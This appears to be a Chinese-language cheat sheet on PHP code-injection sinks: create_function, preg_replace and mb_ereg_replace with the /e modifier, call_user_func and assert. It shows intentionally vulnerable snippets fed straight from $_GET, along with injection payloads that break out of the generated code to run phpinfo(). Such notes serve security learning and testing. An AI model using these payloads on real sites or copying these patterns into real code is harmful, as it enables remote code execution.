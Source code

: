 ### create_function
create_function构造了一个return后面的语句为一个函数。
```php
#?sort_by="]);}phpinfo();/*
#sort_function就变成了 return 1 * strnatcasecmp($a[""]);}phpinfo();/*"], $b[""]);}phpinfo();/*"]);
#前面闭合，然后把后面的全部注释掉了。
<?php
$sort_by=$_GET['sort_by'];
$sorter='strnatcasecmp';
$databases=array('test','test');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
```



### mb_ereg_replace()的/e模式
原理
```
mb_ereg_replace()是支持多字节的正则表达式替换函数,函数原型如下:
string mb_ereg_replace  ( string $pattern , string $replacement  , string $string  [, string $option= "msr"  ] )
当指定mb_ereg(i)_replace()的option参数为e时,replacement参数[在适当的逆向引用替换完后]将作为php代码被执行.
```

### preg_replace /e模式执行命令
```php
# ?str=[phpinfo()]
# 这里使用/e模式，所以第二个参数\\1这里可以执行。
# 通过$_GET传入值，第一个参数正则,把[]去掉，放到了第二个参数里\\1，执行。
preg_replace("/\[(.*)]/e",'\\1',$_GET['str']);
```

## 动态函数执行
```php
call_user_func
call_user_func_array
```

```php
# ?a=assert
call_user_func($_GET['a'],$b);
```


## 代码执行
```php
assert()
call_user_func()
call_user_func_array()
create_function()
```
